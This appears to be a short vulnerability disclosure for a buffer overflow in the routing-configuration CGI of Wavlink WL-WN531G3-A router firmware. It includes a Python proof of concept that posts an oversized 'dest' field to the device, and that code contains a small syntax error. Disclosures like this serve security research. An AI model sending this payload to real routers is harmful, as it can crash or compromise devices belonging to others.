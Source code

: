 # buff overflow

## WAVLINK_WL_WN531G3_A

version: 20220801

## Description:

There is a buff overflow in internet.cgi/set_add_routing

## Source:

you may download it from : 

[WL-WN531G3-A - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c85755a050.html)

## Analyse:

![](5.png)

get value from dest, and set hostnet

![](6.png)

so we can get here, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/internet.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'addrouting', 'dest': + payload, 'hostnet':'1'})
```
